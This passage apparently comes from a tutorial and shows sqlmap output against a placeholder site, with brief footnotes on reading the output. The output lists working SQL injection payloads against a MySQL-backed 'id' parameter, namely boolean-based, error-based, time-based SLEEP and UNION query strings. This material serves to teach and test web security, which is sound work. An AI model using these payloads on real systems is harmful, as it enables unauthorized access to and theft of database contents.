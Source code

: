 ```
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

[1] - means no major changes between responses when sending identical request: This is good for automation

[2] - means a change in this parameter would result in a change of the output

[3]
